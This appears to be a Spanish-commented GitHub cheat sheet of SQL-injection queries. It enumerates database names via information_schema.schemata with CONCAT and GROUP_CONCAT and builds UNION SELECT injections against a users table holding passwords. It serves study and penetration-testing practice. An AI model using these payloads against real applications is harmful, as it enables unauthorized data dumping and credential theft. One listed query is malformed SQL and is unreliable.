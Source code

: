 # SQLi: schema, schemata & DIOS

## Fz3r0 SQLi: `schema_name` (Databases) mini bible

````sql
## Schema Name AKA Databases Names Dump
SELECT schema_name FROM information_schema.schemata;

---

## Group Concat Basic Query
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata;

## Limitando a 1 en caso que solo deje arrojar un resultado
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata limit 0,1;

---

## Concat Basic Query
SELECT CONCAT(schema_name) FROM information_schema.schemata;

## Mini DIOS: DB Enum (schema enum)
SELECT CONCAT('Database PWNed : ',(schema_name)) FROM information_schema.schemata;

---
````

## `schema name` from `information schema`

### Query basic

````sql
## Schema Name AKA Databases Names Dump
select schema_name CONCAT information_schema.schemata;
````

---

### Group Concat

#### Basic

````sql
## Group Concat Basic Query
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata;

## Limitando a 1 en caso que solo deje arrojar un resultado
SELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata limit 0,1;
````

#### Variantes

````sql
## Agregando un string para separador en forma de ':'
SELECT GROUP_CONCAT(schema_name SEPARATOR ' : ') FROM information_schema.schemata;

## Mini DIOS
SELECT GROUP_CONCAT('Database PWNed: ',schema_name) FROM information_schema.schemata;
````

---

### Concat

#### Basic

````sql
## Concat Basic Query
SELECT concat(schema_name) FROM information_schema.schemata;
````

#### Variantes

````sql
## Agregando un string para separador en forma de ':'
SELECT concat(schema_name, ' : ') FROM information_schema.schemata;

## Mini DIOS: DB Enum (schema enum)
SELECT concat('Database PWNed : ',(schema_name)) FROM information_schema.schemata;
````

---

### Union + Group Concat

#### `Union Select` Progression:

````sql
## Original example v1:
select username,password from users;

## Original example v2:
select username,password from users where username = 'F0n3';

## Basic Union Select (v1)
select username,password from users union select 1,2;

## Condition Union Select (v2):
select username,password from users where username = 'F0n3' union select 1,2;

## Condition Union Select, strings a palcer (v2):
select username,password from users where username = 'F0n3' union select 'izquierda','derecha';
````

---

### `schema_name`

#### `Union Select` + `schema_name`

````sql
##     Tip: básicamente se inserta el basic query (SELECT schema_name FROM information_schema.schemata;) dentro de un UNION pero se le quita el SELECT para que no se duplique ;)

## Basic Union Select (v1)
SELECT username,password FROM users UNION SELECT 1,schema_name FROM information_schema.schemata;

## Condition Union Select (v2):
select username,password from users where username = 'F0n3' UNION SELECT 1,schema_name FROM information_schema.schemata;
````

#### `Group Concat` + `Union Select` + `schema_name`

````sql
##     Tip: básicamente se inserta el query de union select un "GROUP_CONCAT" (GROUP CONCAT(schema_name)) dentro de un UNION pero se le quita el SELECT para que no se duplique ;)

## Basic Union Select (v1)
SELECT username,password FROM users UNION SELECT 1,GROUP_CONCAT(schema_name) FROM information_schema.schemata;

## Condition Union Select (v2):
select username,password from users where username = 'F0n3' UNION SELECT 1,GROUP_CONCAT(schema_name) FROM information_schema.schemata;
````


